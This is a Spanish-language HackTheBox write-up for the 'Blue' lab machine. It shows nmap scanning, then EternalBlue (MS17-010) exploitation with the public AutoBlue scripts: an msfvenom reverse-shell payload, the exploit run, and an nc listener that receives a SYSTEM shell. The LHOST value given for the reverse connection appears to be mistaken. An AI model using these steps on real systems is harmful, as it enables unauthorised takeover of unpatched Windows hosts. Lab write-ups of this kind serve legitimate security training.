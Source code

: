 ```yaml
---
title: HackTheBox - Blue
author: cotes
date: 2023-09-06 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Windows, 'Eternal Blue (MS17-010)']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Blue/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Blue Machine Logo
---
```


Máquina Windows de nivel **Easy** de HackTheBox.

Técnicas usadas: **Eternal Blue (MS17-010)**


### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **Máquina Blue**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Blue/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sCV <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Blue/02-versions.png)

    * El uso de este sistema operativo y la exposición del servicio **SMB** lo hace vulnerables a **Eternal Blue**

c. Usaremos el siguiente exploit [Auto-Blue](https://github.com/3ndG4me/AutoBlue-MS17-010)

* Entramos en el directorio **shell_code** y usamos el script **shell_prep.sh**

    ```bash
    root@kali> .\shell_prep.sh

    kernel shellcode compiled, would you like to auto generate a reverse shell with msfvenom? (Y/n)
    Y
    LHOST for reverse connection:
    <IP Blue>
    LPORT you want x64 to listen on:
    <Port>
    LPORT you want x86 to listen on:
    <Port>
    Type 0 to generate a meterpreter shell or 1 to generate a regular cmd shell
    1
    Type 0 to generate a staged payload or 1 to generate a stageless payload
    1
    Generating x64 cmd shell (stageless)...
    ```

* Nos ponemos en escucha con **nc** en el puerto que hayamos especificado anteriormente y ejecutamos el script **eternalblue_exploit7.py**

    ```bash
    root@kali> python3 eternalblue_exploit7.py <IP Blue> shellcode/sc_x64.bin 
    shellcode size: 1232
    numGroomConn: 13
    Target OS: Windows 7 Professional 7601 Service Pack 1
    SMB1 session setup allocate nonpaged pool success
    SMB1 session setup allocate nonpaged pool success
    good response status: INVALID_PARAMETER
    done
    ----------------------------------------------------------------------------
    root@kali> nc -lvnp 443
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    C:\Windows\system32>whoami
    nt authority\system
    ```